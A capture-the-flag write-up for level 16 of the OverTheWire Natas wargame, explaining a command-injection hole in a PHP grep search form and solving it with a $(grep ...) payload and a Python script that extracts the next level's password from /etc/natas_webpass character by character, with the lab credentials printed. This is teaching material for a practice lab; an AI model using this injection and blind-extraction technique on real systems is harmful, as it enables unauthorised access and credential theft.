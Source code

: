 # Level 16
## What does the page look like?
```html
$ curl -s --user natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh http://natas16.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Source code
```html
$ curl -s --user natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh http://natas16.natas.labs.overthewire.org/index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</
script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing:
 <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This level is simimalr to [level 10](https://github.com/sebastiendamaye/overthewire/tree/master/Natas/level10) with a subtle difference though:

| level 10 | level 16 |
|---|---|
| `passthru("grep -i $key dictionary.txt");` | `passthru("grep -i \"$key\" dictionary.txt");`

This time, the user input is sourounded by double quotes.

## Concatenate files
Let's see if we can concatenate the file `/etc/natas_webpass/natas17` to our search as we did in [level 10](https://github.com/sebastiendamaye/overthewire/tree/master/Natas/level10):
~~~~
$ curl -s -d "flag /etc/natas_webpass/natas17&submit=Search" --user natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh http://natas16.natas.labs.overthewire.org | html2text 

****** natas16 ******
For security reasons, we now filter even more on certain characters

Find words containing: [needle              ][Search]

Output:
View_sourcecode
~~~~

No, it doesn't work this time, we'll need something else.

## Brute force
I noticed that sending `$(grep a /etc/natas_webpass/natas17)` is showing the entire entries of the dictionary.

Playing a bit locally on my machine, I noticed I could do as follows to brute force the password.
~~~~
$ grep -i "wrongly$(grep ^thisisthefla flag.txt)" dictionary.txt
$ grep -i "wrongly$(grep ^thisistheflz flag.txt)" dictionary.txt
wrongly
~~~~

The 1st command returns nothing because the beginning of the guessed password is correct. On the other hand, the 2nd command returns `wrongly` (this is one of the unique words I chose from the dictionary) and indicates that the beginning of the guessed password is incorrect.

Let's write a python script to brute force our password
```python
#!/usr/bin/env python
import requests

auth_user = 'natas16'
auth_pwd = 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
target = "http://natas16.natas.labs.overthewire.org"

password = ''

# we know the password is 32 chars long
for pos in range(33):
	for i in range(48,123):
		# only test a-z, A-Z and 0-9
		if (i>47 and i<58) or (i>64 and i<91) or (i>96):
			payload = {
				'needle': 'wrongly$(grep ^%s%s /etc/natas_webpass/natas17)' % (password, chr(i)),
				'submit': 'Search'
				}
			r = requests.get(
				target,
				auth=requests.auth.HTTPBasicAuth(auth_user, auth_pwd),
				params=payload
				)
			if "wrongly" not in r.text:
				password += chr(i)
				print(password)
				break
```
Here is the output:
~~~~
$ python bruteforce.py 
8
8P
8Ps
8Ps3
8Ps3H
8Ps3H0
8Ps3H0G
8Ps3H0GW
8Ps3H0GWb
8Ps3H0GWbn
8Ps3H0GWbn5
8Ps3H0GWbn5r
8Ps3H0GWbn5rd
8Ps3H0GWbn5rd9
8Ps3H0GWbn5rd9S
8Ps3H0GWbn5rd9S7
8Ps3H0GWbn5rd9S7G
8Ps3H0GWbn5rd9S7Gm
8Ps3H0GWbn5rd9S7GmA
8Ps3H0GWbn5rd9S7GmAd
8Ps3H0GWbn5rd9S7GmAdg
8Ps3H0GWbn5rd9S7GmAdgQ
8Ps3H0GWbn5rd9S7GmAdgQN
8Ps3H0GWbn5rd9S7GmAdgQNd
8Ps3H0GWbn5rd9S7GmAdgQNdk
8Ps3H0GWbn5rd9S7GmAdgQNdkh
8Ps3H0GWbn5rd9S7GmAdgQNdkhP
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
~~~~

# Flag
~~~~
natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
~~~~
